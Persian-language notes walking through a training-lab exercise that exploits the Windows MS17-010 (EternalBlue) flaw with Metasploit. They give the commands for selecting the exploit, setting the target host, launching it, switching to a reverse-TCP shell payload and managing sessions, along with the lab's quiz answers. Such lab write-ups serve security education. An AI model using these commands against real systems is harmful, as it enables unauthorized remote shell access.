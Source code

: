 	0. در این task باید با استفاده از Metasploit و Payload با نام `windows/x64/shell/reverse_tcp` به ماشین ویندوزی تارگت نفوذ کنیم.
		1. ![[Pasted image 20240712162010.png]]
	1. `search ms17-010` or `search eternal`
		1. ![[Pasted image 20240712162333.png]]
	3. `use exploit/windows/smb/ms17_010_eternalblue`
		1. ![[Pasted image 20240712162721.png]]
2. *Configure Payload & Run Exploit*
	0. در قدم بعدی باید Option های اکسپلویت را تنظیم کنیم. ابتدا حمله را با Payload پیشفرض انجام میدهیم که به ما دسترسی `Meterpreter Shell` میدهد.  پس از گرفتن این دسترسی Payload عوض میکنیم تا دسترسی `Shell` را بگیریم.
	1. Default Payload is => `windows/x64/meterpreter/reverse_tcp`
	3. حال آیپی تارگت را در پارامتر `RHOSTS` وارد میکنیم.
	4. `set RHOSTS 10.10.193.161`
	5. پس از تنظیم این مقدار هم میتوانیم Exploit را برای گرفتن دسترسی `Meterpreter Shell` شروع کنیم.
	6. `msf6 exploit(windows/smb/ms17_010_eternalblue) > exploit`
		1. ![[Pasted image 20240712163431.png]]
	7. گفتیم که با این Payload، میتوانیم دسترسی `Meterpreter Shell` را دریافت کنیم، اما در این آزمایشگاه ما ابتدا نیازمند دسترسی `Shell CMD` هستیم، به همین خاطر از Meterpreter خارج میشویم تا Payload را عوض کنیم و بتوانیم دسترسی Shell بگیریم.
		1. ![[Pasted image 20240712163546.png]]
	8. `Meterpreter > exit`
	9. `set payload windows/x64/shell/reverse_tcp`
		1. ![[Pasted image 20240712163956.png]]
	10. حال که دوباره Exploit را شروع کنیم میتوانیم به ماشین تارگت دسترسی `Shell CMD` بگیریم.
	11. `msf6 exploit(windows/smb/ms17_010_eternalblue) > exploit`
		1. ![[Pasted image 20240712164313.png]]
	12. حال میتوانیم تمام کامند های CMD را در ماشین تارگت اجرا کنیم.
	13. `C:\Windows\System32> whoami`
		1. ![[Pasted image 20240712164516.png]]
3. *Sessions in Metasploit*
	1. آزمایشگاه میگوید که Shell که در آن توانستید دسترسی `CMD Shell` بگیرید را به Background Process با استفاده از `CTRL+Z` ببرید:
		1. ![[Pasted image 20240712164920.png]]
	2. با اینکار به صفحه اصلی `msfconsole` برمیگردیم. حال اگر بخواهیم دوباره به این Session برگردیم، کافیست از کامند Session برای مشاهده session های فعال و رفتن به آنها استفاده کنیم.
	3. `msf6 exploit(windows/smb/ms17_010_eternalblue) > sessions`
		1. ![[Pasted image 20240712165157.png]]
	4. `msf6 exploit(windows/smb/ms17_010_eternalblue) > set SESSION 2` Set Current Session on Session 2
	5. `msf6 exploit(windows/smb/ms17_010_eternalblue) > sessions -i 3` Go to Session 3
4. *TASK 2 Questions*
	1. جواب سوال اول Task 2 هم، که *اکسپلویت مناسب آسیب پذیری ماشین تارگت را نام ببرید* اکسپلویت      ` exploit/windows/smb/ms17_010_eternalblue` میباشد.
		1. ![[Pasted image 20240712162628.png]]
	2. جواب سوال دوم در Task 2 هم که *میگوید Show Options را انجام دهید و یکی از پارامتر های Required را نام ببرید(CAPSLOCK ON)* میتوانیم مقدار *RHOSTS* را وارد کنیم.
		1. ![[Pasted image 20240712163157.png]]
	3. در آخر هم به صفحه آزمایشگاه Task 2 میرویم و بر روی *جواب سوال سوم*که *Run Exploit* است کلیک میکنیم، سپس هم بر روی `Complete` کلیک میکنیم تا بتوانیم وارد `Task 3 Escalate` بشویم.
		1. ![[Pasted image 20240712164730.png]]
```sh
sudo msfconsoel
"---msfconsole launched---"
msf6 > search ms17-010
msf6 > use exploit/windows/smb/ms17_010_eternalblue
msf6 exploit(windows/smb/ms17_010_eternalblue) > options
msf6 exploit(windows/smb/ms17_010_eternalblue) > set RHOSTS 10.10.193.161
msf6 exploit(windows/smb/ms17_010_eternalblue) > exploit
"TCP Handler Started and now accessing to Meterpreter Shell"
"10.10.193.161:445==================="
Meterpreter > exit
"Back to msf6 exploit(windows/smb/ms17_010_eternalblue) to set new payload"
msf6 exploit(windows/smb/ms17_010_eternalblue) > set payload windows/x64/shell/reverse_tcp
```